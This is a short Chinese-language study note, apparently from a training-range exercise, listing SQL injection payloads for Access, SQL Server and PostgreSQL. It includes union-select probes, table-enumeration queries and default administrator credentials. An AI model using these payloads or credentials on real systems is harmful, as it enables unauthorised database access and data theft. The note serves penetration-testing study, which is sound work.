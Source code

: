 

## 其它数据库注入

靶场：墨者学院

### Access

* 没有库，只有表

* 暴力破解

* ~~~shell
  #语句
  ?id=5 union select 1,2,3,4 from admin
  #注入
  ?id=5 and exists(select count(*) from admin)
  #参考
  https://blog.csdn.net/qq_57307348/article/details/122904162
  ~~~

### sql-server（1433）

* 1、权限
  * sa权限：123456
  * db权限：
  * public权限：
* 2、自带库、表
  * sysobjects：id、name、xtype
* 3、语法

~~~shell
#注入
id=2 order by 4
id=-2 union all select null,2,'3',null （判断是字符，还是整型）
#语句
select @@version;
select db_name;
select user;
~~~

### postgreSQL（5432）

* 1、权限
  * postgres（pw：postgres）

~~~shell
#注入
id=-1 union select null,'2','3',null
id=-1 union select null,(select current_database()),'3',null（数据库）
id=-1 union select null,'2',relname,null from pg_stat_user_tables limit 1 offset 0(表)
# 参考
https://blog.csdn.net/qq_51295677/article/details/125641760
~~~
